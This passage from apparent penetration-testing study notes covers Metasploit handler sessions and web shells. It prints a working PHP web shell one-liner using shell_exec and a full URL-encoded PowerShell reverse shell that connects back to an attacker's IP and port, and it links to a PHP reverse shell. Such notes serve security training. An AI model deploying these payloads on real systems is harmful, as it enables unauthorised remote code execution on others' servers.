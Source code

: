 We can now start a listener with `exploit -j` to tell Metasploit to launch the module, running the job in the background.

- When multi/handler is in the background, use `sessions` to see all active sessions, and then use `sessions <number>` to select the appropriate session to foreground.

## Web Shells

There are times where websites allow us an opportunity to upload an executable file. A 'webshell' is a term for a script that runs inside a webserver (usually in a language such as PHP or ASP) which executes code on the server.

- Commands are entered into a webpage - either through an HTML form, or directly in the URL - which are then executed by the script.
- Extremely useful if there are firewalls in place, or even a stepping stone into a fully fledged reverse or bind shell.

PHP is still the most common server side scripting language.

`<?php echo "<pre>" . shell_exec($_GET["cmd"]) . "</pre>"; ?>`

This will take a GET parameter in the URL and execute it on the system with `shell_exec()`. Any commands we enter in the URL after `?cmd=` will be executed  on the system - Windows or Linux. The pre elements are to ensure that the results are formatted correctly on the page.

There are a variety of web shells available on Kali by default at `/usr/share/webshells` - including the the infamous [PentestMonkey php-reverse-shell](https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php) - a full reverse shell written in PHP.

- Most generic, language specific (e.g. PHP) reverse shells are written for Unix based targets such as Linux web servers. They will not work on Windows by default.
- When the target is Windows, it is often easiest to obtain RCE using a web shell, or by using msfvenom to generate a reverse/bind shell in the language of the server.
- RCE with URL Encoded Powershell Reverse Shell copied into the URL: 
  - `powershell%20-c%20%22%24client%20%3D%20New-Object%20System.Net.Sockets.TCPClient%28%27<IP>%27%2C<PORT>%29%3B%24stream%20%3D%20%24client.GetStream%28%29%3B%5Bbyte%5B%5D%5D%24bytes%20%3D%200..65535%7C%25%7B0%7D%3Bwhile%28%28%24i%20%3D%20%24stream.Read%28%24bytes%2C%200%2C%20%24bytes.Length%29%29%20-ne%200%29%7B%3B%24data%20%3D%20%28New-Object%20-TypeName%20System.Text.ASCIIEncoding%29.GetString%28%24bytes%2C0%2C%20%24i%29%3B%24sendback%20%3D%20%28iex%20%24data%202%3E%261%20%7C%20Out-String%20%29%3B%24sendback2%20%3D%20%24sendback%20%2B%20%27PS%20%27%20%2B%20%28pwd%29.Path%20%2B%20%27%3E%20%27%3B%24sendbyte%20%3D%20%28%5Btext.encoding%5D%3A%3AASCII%29.GetBytes%28%24sendback2%29%3B%24stream.Write%28%24sendbyte%2C0%2C%24sendbyte.Length%29%3B%24stream.Flush%28%29%7D%3B%24client.Close%28%29%22`
    - Remember that the IP and Port (bold, towards end of the top line) will still need to be changed in the above code.